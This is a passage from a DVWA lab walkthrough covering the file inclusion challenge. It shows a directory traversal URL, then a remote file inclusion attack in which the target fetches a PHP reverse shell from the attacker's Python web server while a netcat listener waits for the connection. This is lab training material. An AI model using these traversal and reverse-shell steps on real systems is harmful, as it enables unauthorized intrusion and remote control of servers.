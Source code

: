 <i>Note: if you didn't deduce this yourself, you could use an automatic tool like fimap to "brute force" how many directories you'll need to traverse.</i>

Let's modify the URL as follows:

<b>http&#58;//dvwa/dvwa/vulnerabilities/fi/?page=../../hackable/flags/fi.php</b>

<img src="https://github.com/mrudy/dvwa-guide-2019/blob/master/low/screenshots/filfipartial.png" width="500">

Success ... partially? We can clearly see quotes #1, #2, and #4. #3 seems to have been hidden in some manner, and we don't see #5 at all. Let's examine the source code (Right-click > "Inspect Element") and see if we can find out what happened to the missing quotes.

<img src="https://github.com/mrudy/dvwa-guide-2019/blob/master/low/screenshots/filfipartialfive.png" width="500">

Aha! #5 shows up in the source! It's commented out, which means your average end user wouldn't see it. But #3 still doesn't appear. That must mean the server-side code is obfuscating it in some manner. 

What can we do to view the server-side source code? I think it's time for my favorite kind of exploit ...

<h3><b>Remote File Inclusion</b></h3>

We already know we can point the <b>page</b> parameter to whatever we want, whether it's a local file or remote site. So can we point it to something that gives us a bit more control? A shell of some sort? Let's find out!

I tend to like reverse shells, so let's start by setting up a temporary web server on Kali. I don't know about you, but I don't want to deal with a full Apache server, .htaccess, moving files around, and all that. Lucky for us, we can easily stand one up with the following command:

<b>python -m SimpleHTTPServer 9999</b>

<img src="https://github.com/mrudy/dvwa-guide-2019/blob/master/low/screenshots/firfilistenersetup.png" width="500">

Of course, you can change <b>9999</b> to whatever port you want.

Now let's find a shell. 

Kali actually has a bunch of them included by default. You can find them at <b>/usr/share/webshells/</b>. Since we're dealing with PHP, I'm going to take <b>php/php-reverse-shell.php</b> and move it to my working directory. Open it up and define the variable "$ip" to your Kali IP address and "$port" to whatever port you want to receive a connection to. It's that easy!

Finally, we'll need a listener to accept the connection from the shell. The networking tool "netcat" sounds like it will fit our needs. Let's try this:

<b>nc -lvnp 5555</b>

<img src="https://github.com/mrudy/dvwa-guide-2019/blob/master/low/screenshots/firfincsetup.png" width="500">

Again, feel free to change <b>5555</b> to your preferred port.

Now it's time to bring it all together. Your new RFI exploit should look something like:

<b>http&#58;//dvwa/dvwa/vulnerabilities/fi/?page=http&#58;//</b>[your_Kali_IP]<b>:9999/php-reverse-shell.php</b>
